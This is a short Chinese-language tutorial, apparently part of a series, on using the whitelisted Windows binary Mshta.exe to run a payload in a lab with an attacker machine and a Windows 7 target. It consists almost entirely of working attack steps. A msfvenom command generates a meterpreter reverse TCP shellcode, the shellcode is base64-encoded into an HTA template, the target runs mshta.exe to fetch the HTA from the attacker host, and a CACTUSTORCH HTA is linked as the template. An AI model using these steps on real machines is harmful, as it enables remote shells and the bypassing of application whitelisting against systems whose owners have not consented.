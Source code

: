 ### 11.5 基于白名单Mshta.exe执行payload（五）

**Mshta简介：**

Mshta.exe是微软Windows操作系统相关程序，英文全称Microsoft HTML Application，可翻译为微软超文本标记语言应用，用于执行.HTA文件。

说明：Mshta所在路径已被系统添加PATH环境变量中，因此，可直接执行Mshta.exe命令。

基于白名单Mshta.exe配置payload：

Windows 7 默认位置：

    C:\Windows\System32\mshta.exe
    C:\Windows\SysWOW64\mshta.exe
    
        

攻击机：192.168.1.4 Debian

靶机： 192.168.1.3 Windows 7

**配置攻击机msf：**-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201010151135711.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
配置payload：

    msfvenom ‐a x86 ‐‐platform windows ‐p windows/meterpreter/reverse_tcp LHOST=192.168.1.4 LPORT=53 ‐f raw > shellcode.bin
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201010151201373.png%23pic_center)

    cat shellcode.bin |base64 ‐w 0
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201010151210645.png%23pic_center)

替换如下：![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201010151218228.png%23pic_center)-
**靶机执行：**

    mshta.exe http://192.168.1.4/Micropoor.hta
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201010151244520.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

附录：Micropoor.hta

    https://raw.githubusercontent.com/mdsecactivebreach/CACTUSTORCH/master/CACTUSTORCH.hta
    
        

* * *